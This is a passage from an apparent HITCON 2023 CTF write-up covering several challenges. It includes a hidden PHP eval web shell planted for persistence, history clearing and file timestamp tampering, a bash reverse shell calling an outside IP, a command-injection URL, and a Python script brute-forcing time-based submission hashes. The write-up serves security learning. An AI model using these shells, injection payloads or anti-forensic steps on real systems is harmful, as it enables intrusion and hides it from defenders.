drwxr-xr-x   1 root root 4096 Nov 22  2019 run
drwxr-xr-x   1 root root 4096 Nov 22  2019 sbin
drwxr-xr-x   2 root root 4096 Nov 18  2019 srv
dr-xr-xr-x  13 root root    0 Aug 13 16:01 sys
drwxrwxrwt   1 root root 4096 Aug 13 15:51 tmp
drwxr-xr-x   1 root root 4096 Nov 18  2019 usr
drwxr-xr-x   1 root root 4096 Nov 22  2019 var
www-data@47d54b4b83a0:/var/www/html/sandbox/x.x.x.x$ cat /flag
cat /flag
hitcon{Baby's_f1rst_1s_simp1e,n0?}
```
##### Persistence

```bash
phpsploit --interactive --eval "set PASSKEY THMWEB; exploit"
```



```bash
www-data@47d54b4b83a0:/var/www/html/sandbox/x.x.x.x$ cd ..
cd ..
www-data@47d54b4b83a0:/var/www/html/sandbox$ rm -rf x.x.x.x
rm -rf x.x.x.x

www-data@47d54b4b83a0:/var/www/html/sandbox$ mkdir bravosec&&cd bravosec
mkdir bravosec&&cd bravosec

www-data@47d54b4b83a0:/var/www/html/sandbox/bravosec$ unset HISTFILE
unset HISTFILE

www-data@47d54b4b83a0:/var/www/html/sandbox/bravosec$ echo '<?php @eval($_SERVER['HTTP_THMWEB']); ?>' > .cache.php
<RVER['HTTP_THMWEB']); ?>' > .cache.php
www-data@47d54b4b83a0:/var/www/html/sandbox/bravosec$ touch /var/www/html/index.php -r .cache.php
< /var/www/html/index.php -r .cache.php
```

```bash
phpsploit > set target http://dev.hitcon2023.online:8787/sandbox/bravosec/.cache.php
phpsploit > exploit
[*] Current backdoor is: <?php @eval($_SERVER['HTTP_THMWEB']); ?>

[*] Sending payload to http://dev.hitcon2023.online:8787/.cache.php ...
[*] Shell obtained by PHP (x.x.x.x -> 172.17.0.5)

Connected to Linux server (dev.hitcon2023.online)
running PHP 7.1.33 on Apache/2.4.38 (Debian)
phpsploit(dev.hitcon2023.online) > help
phpsploit(dev.hitcon2023.online) > touch -t '2001' .cache.php
```
### Failed Attempts
#### Download revshell via HTTP redirect to ftp

**wget** will save file as `index.html` if no output name was specified

> [!failed] 
> Try to redirect to ftp then download a file. It will still be saved as `index.html`

```bash
┌──(root㉿kali)-[~/waa]
└─# cat redirect.py
"""
Simple Python http server which will redirect to a file, except the file path is already the FILENAME
"""
import http.server
import socketserver

PORT = 80
FILENAME="ok.tar"

class RedirectHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.path = FILENAME
            self.send_response(302)
            self.send_header('Location', 'ftp://54.74.27.17/ok')
            self.end_headers()
            return
        return http.server.SimpleHTTPRequestHandler.do_GET(self)

Handler = RedirectHandler

with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print("serving at port", PORT)
    httpd.serve_forever()
```

```bash
┌──(root㉿kali)-[~/ftp]
└─# cat ok
#!/bin/bash
bash -i >& /dev/tcp/54.74.27.17/1111 0>&1
```

```bash
python redirect.py
python3 -m pyftpdlib -p 21 -n 54.74.27.17
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/hitcon-2023-ctf/babyfirst]
└─$ wget 910826257
--2023-08-14 03:11:39--  http://910826257/
Resolving 910826257 (910826257)... 54.74.27.17
Connecting to 910826257 (910826257)|54.74.27.17|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: ftp://54.74.27.17/ok [following]
--2023-08-14 03:11:39--  ftp://54.74.27.17/ok
           => ‘index.html’
Connecting to 54.74.27.17:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> SIZE ok ... 54
==> PASV ... done.    ==> RETR ok ... done.
Length: 54 (unauthoritative)

index.html                                           100%[===================================================================================================================>]      54  --.-KB/s    in 0s

2023-08-14 03:11:43 (10.3 MB/s) - ‘index.html’ saved [54]
```

#### Download revshell via ftpget

```bash
python3 -m pyftpdlib -p 21 -n 54.74.27.17
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/hitcon-2023-ctf/babyfirst]                                                                     └─$ http "http://dev.hitcon2023.online:8787/index.php?args[]=x%0a&args[]=busybox&args[]=ftpget&args[]=%2du&args[]=anonymous&args[]=910826257&args[]=ok"
```

> [!fail] 
> The box does not have busybox nor ftpget installed
## papapa

#### Info

Use your force to visit the most secure website

[http://rectf.hitcon2023.online:30200](http://rectf.hitcon2023.online:30200/)
#### Solve


```bash
sslscan https://rectf.hitcon2023.online:30201
```


```bash
┌──(bravosec㉿fsociety)-[~/thm/koth/Production]
└─$ curl -k -H 'Host: very-secret-area-for-ctf.chal.kikihost.xyz' https://rectf.hitcon2023.online:30201
<pre>Nice, here is your flag: hitcon{n0w_M4y_h4v3_th3_f14g}
```

## yeeclass

#### Info

Due to the security concerns, we are going to phase out the old LMS system. We have developed a new E-learning system called "yeeclass", please give it a try!

[http://rectf.hitcon2023.online:30203/](http://rectf.hitcon2023.online:30203/)
#### Solve


Register


Public Homework


Try changing the homework id to 1, but no perms


Will be able to view flag submission timestamp without login session 


Brute force the hash

```python
import requests
import hashlib
from concurrent.futures import ThreadPoolExecutor
from datetime import datetime, timezone


global flag_found
flag_found = False

username = "flagholder"
timestamp = '2023-08-14 15:48:30.576641'

dt = datetime.fromisoformat(timestamp).replace(tzinfo=timezone.utc)
sec = int(dt.timestamp())
usec = dt.microsecond
print(sec, usec)

url = 'http://rectf.hitcon2023.online:30203/submission.php?hash='

def get_hash(sec, usec):
    user_id = f"{username}_{sec:08x}{usec:05x}"
    return hashlib.sha1(user_id.encode()).hexdigest()

def check_hash(index:int):
    global flag_found
    if flag_found:
        return
    hash = get_hash(sec, usec - index)
    r = requests.get(url + hash)
    if r.text != "Submission not found.":
        flag_found = True
        print("Found hash:", hash)
        print(r.text)

with ThreadPoolExecutor(max_workers=50) as executor:
    for i in range(500):
        executor.submit(check_hash, i)
        if flag_found:
            break
```

```bash
D:\kali-share\hitcon-2023-ctf\yeeclass>python brute.py
```

Result

```html
        <hr>
                <section id="view">
            <h3>flagholder_Flag <a href="submit.php?homeworkid=1&delete=8a053db63e7960e75d2fbf732c5279731efa6476">[Delete]</a></h3>
            <p>Time: 2023-08-14 15:48:30.576641</p>
            <p>Score: 100</p>
            <pre>hitcon{pHp_1s_the_b35t_1ang}</pre>
        </section>
            </div>
</body>
</html>
```